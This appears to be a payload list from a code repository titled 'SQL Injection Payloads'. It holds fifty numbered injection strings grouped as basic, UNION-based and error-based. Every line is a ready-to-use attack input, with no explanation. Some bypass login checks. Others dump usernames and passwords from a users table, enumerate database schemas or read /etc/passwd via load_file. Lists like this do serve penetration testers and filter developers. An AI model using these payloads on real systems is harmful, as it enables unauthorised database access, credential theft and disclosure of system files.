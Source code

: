 ## SQL Injection Payloads

### Basic SQL Injection
1. `' OR '1'='1`
2. `' OR '1'='1' --`
3. `' OR 1=1 --`
4. `' OR 1=1 #`
5. `' OR 'a'='a'`
6. `' OR 'a'='a' --`
7. `' OR 'a'='a' #`
8. `' OR 'x'='x'`
9. `' OR 'x'='x' --`
10. `' OR 1=1 /*`
11. `' OR 1=1 --+`
12. `' OR '1'='1' /*`
13. `' OR '1'='1' --+`
14. `' OR 1=1#`
15. `' OR '1'='1' --`
16. `' OR '1'='1' /*+`
17. `' OR 'admin'='admin'`
18. `' OR 1=1; --`
19. `' OR 1=1; --+`
20. `' OR 1=2; --`

### Union-Based SQL Injection
21. `' UNION ALL SELECT NULL, NULL, NULL--`
22. `' UNION SELECT username, password FROM users--`
23. `' UNION ALL SELECT table_name, column_name FROM information_schema.columns--`
24. `' UNION SELECT 1, version()--`
25. `' UNION ALL SELECT load_file('/etc/passwd')--`
26. `' UNION SELECT NULL, user()--`
27. `' UNION ALL SELECT 1, database()--`
28. `' UNION ALL SELECT concat(username, 0x3a, password) FROM users--`
29. `' UNION SELECT 1, 2, 3, 4, 5--`
30. `' UNION SELECT table_name FROM information_schema.tables--`
31. `' UNION ALL SELECT schema_name FROM information_schema.schemata--`
32. `' UNION ALL SELECT column_name FROM information_schema.columns--`
33. `' UNION ALL SELECT null, null, null--`
34. `' UNION ALL SELECT 1, 2, (SELECT user())--`
35. `' UNION SELECT 1, database()--`
36. `' UNION ALL SELECT null, @@version--`
37. `' UNION ALL SELECT 1, (SELECT table_name FROM information_schema.tables)--`
38. `' UNION SELECT 1, (SELECT GROUP_CONCAT(user()) FROM mysql.user)--`
39. `' UNION SELECT 1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables)--`
40. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')--`

### Error-Based SQL Injection
41. `' AND 1=CONVERT(int, (SELECT @@version))--`
42. `' AND 1=CONVERT(int, (SELECT user()))--`
43. `' AND 1=CONVERT(int, (SELECT version()))--`
44. `' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`
45. `' AND 1=CONVERT(int, (SELECT column_name FROM information_schema.columns WHERE table_name='users'))--`
46. `' AND 1=CONVERT(int, (SELECT load_file('/etc/passwd')))--`
47. `' AND 1=CONVERT(int, (SELECT concat(username, ':', password) FROM users))--`
48. `' AND 1=CONVERT(int, (SELECT schema_name FROM information_schema.schemata))--`
49. `' AND 1=CONVERT(int, (SELECT database()))--`
50. `' AND 1=CONVERT(int, (SELECT user()))--`
